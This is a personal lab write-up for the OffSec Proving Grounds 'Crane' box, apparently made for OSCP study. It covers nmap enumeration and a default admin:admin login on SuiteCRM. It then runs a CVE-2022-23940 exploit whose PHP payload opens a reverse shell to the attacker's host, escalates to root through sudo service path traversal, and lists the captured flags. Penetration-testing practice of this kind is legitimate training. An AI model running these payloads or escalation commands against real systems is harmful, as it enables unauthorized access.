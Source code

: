 ```yaml
---
Date: 2024-10-07
Course: "[[OSCP]]"
Platform: PG-Practice
Category: Linux
Difficulty: Intermediate
Status: Complete
IP: 192.168.137.146
Writeup: https://medium.com/@halfcircassian/offsec-proving-grounds-crane-walkthrough-f867bc9d442e
---
```

# Crane
This was the most straight-forward box so far. While a walkthrough was referenced for some of the exploit syntax, the exploit itself had already been found and tested before hand, so catching the reverse shell was straightforward.

After initial access, it was clear `usr/sbin/service` could be used for privilege escalation. It took a bit of testing, but combining `www-data`'s sudo privileges with directory traversal led to `root` access

# Resolution summary
- Scanned with Nmap to find ports 22, 80, & 3306
- Navigated to `http://192.168.137.146:80` 
- Password guessed admin login, and identified SuiteCRM 7.12.3
- Found exploit for CVE-2022-23940, executed against target & achieved shell
- Checked sudo privileges and found `/usr/sbin/services`
- Used `sbin` & directory traversal to escalate to `root`
## Improved skills
- Finding/testing exploits
- Linux Privilege Escalation
## Used tools
- Nmap
- NetCat

---
# Information Gathering
Scanned all TCP ports:
```bash
sudo nmap -sC -sV -oN crane.nmap 192.168.137.146 -v
```

Enumerated open TCP ports:
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 37:80:01:4a:43:86:30:c9:79:e7:fb:7f:3b:a4:1e:dd (RSA)
|   256 b6:18:a1:e1:98:fb:6c:c6:87:55:45:10:c6:d4:45:b9 (ECDSA)
|_  256 ab:8f:2d:e8:a2:04:e7:b7:65:d3:fe:5e:93:1e:03:67 (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.38 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/
|_http-favicon: Unknown favicon MD5: ED9A8C7810E8C9FB7035B6C3147C9A3A
| http-title: SuiteCRM
|_Requested resource was index.php?action=Login&module=Users
3306/tcp open  mysql   MySQL (unauthorized)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
---
# Enumeration
## Port 22 - SSH (OpenSSH 7.9p1)
No enumeration conducted
## Port 80 - HTTP (Apache)
- Navigated to `http://192.168.137.146:80` & identified `SugarCRM`
![[Cybersecurity-Resources/images/Pasted image 20241007155353.png]]
- Password guessed `admin:admin` and accessed Admin Dashboard
![[Cybersecurity-Resources/images/Pasted image 20241007160513.png]]
- Navigated to "About" and confirmed `SuiteCRM v7.12.3` & `Suger v6.5.25 (Build 344)`
	- Potentially vulnerable to [`EBD-ID:51187`](https://www.exploit-db.com/exploits/51187) (requires credentials)
	- Potentially vulnerable to [CVE-2024-36412](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-36412)
	- Potentially vulnerable to [CVE-2022-23940](https://github.com/manuelz120/CVE-2022-23940)
![[Cybersecurity-Resources/images/Pasted image 20241007161814.png]]
- Inspected `robots.txt`
![[Cybersecurity-Resources/images/Pasted image 20241007155610.png]]
- Attempted to navigate to `/ical_server.php`
![[Cybersecurity-Resources/images/Pasted image 20241007155653.png]]
- Re-entered `admin:admin` and downloaded `ical_server.ics`
![[Cybersecurity-Resources/images/Pasted image 20241007160822.png]]
## Port 3306 - MYSQL
- Attempted to re-use `admin:admin` credentials
![[Cybersecurity-Resources/images/Pasted image 20241007161053.png]]

---
# Exploitation
- Identified exploit for [CVE-2022-23940](https://github.com/manuelz120/CVE-2022-23940)
- Copied exploit, executed against target: 
`./exploit.py -h http://192.168.137.146/ -u admin -p admin --payload "php -r '\$sock=fsockopen(\"192.168.45.160\", 4444); exec(\"/bin/sh -i <&3 >&3 2>&3\");'"`
![[Cybersecurity-Resources/images/Pasted image 20241007163321.png]]
- Caught reverse shell with NetCat:
![[Cybersecurity-Resources/images/Pasted image 20241007163458.png]]
---
# Privilege Escalation
## Local Enumeration
- Upgraded to Full TTY and printed `local.txt`
![[Cybersecurity-Resources/images/Pasted image 20241007163641.png]]
- Checked `sudo -l`
![[Cybersecurity-Resources/images/Pasted image 20241007163902.png]]
## Privilege Escalation vector
- Identified `www-data` can run system services without password
- Attempted to abuse sudo with directory traversal to maintain privileges: `sudo /usr/sbin/service ../../../../../../../bin/bash`
![[Cybersecurity-Resources/images/Pasted image 20241007164937.png]]
- Navigated to `/root` and printed `proof.txt`
![[Cybersecurity-Resources/images/Pasted image 20241007165127.png]]
---
# Trophy & Loot
`local.txt` = `2847b6fff8e4463e6cfb2ecae2e0ec97`
`root.txt` = `698934849f240865f3ef3ec8aa705eac`